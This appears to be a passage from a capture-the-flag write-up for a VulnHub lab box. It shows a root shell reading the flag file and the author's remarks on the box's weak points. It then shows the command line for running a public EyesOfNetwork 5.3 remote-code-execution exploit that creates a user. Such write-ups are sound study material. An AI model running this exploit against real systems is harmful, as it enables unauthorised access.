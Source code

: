 cd root
sh-4.2# ls
ls
anaconda-ks.cfg
eon
flag.txt
index.htm
index\_files
logdel2
upit.sh
sh-4.2# cat flag.txt
cat flag.txt
flag 1/1
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!

sh-4.2#

So it really was that easy. The fact that we could read the root flag from the port 66 website and the fact the Eyes of Network program was running as root are both bad, but made this box way easier.

Just as an exercise, I tried using the exploit to create a new user and log into Eyes of Network to see what the actual platform looks like:

~/Documents/vulnhub/driftingBlues » python3 eyesExpl.py https://10.0.2.6 -ip 10.0.2.15 -user test -password pass 
+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac Twitter: @h4knet                                  |
+-----------------------------------------------------------------------------+
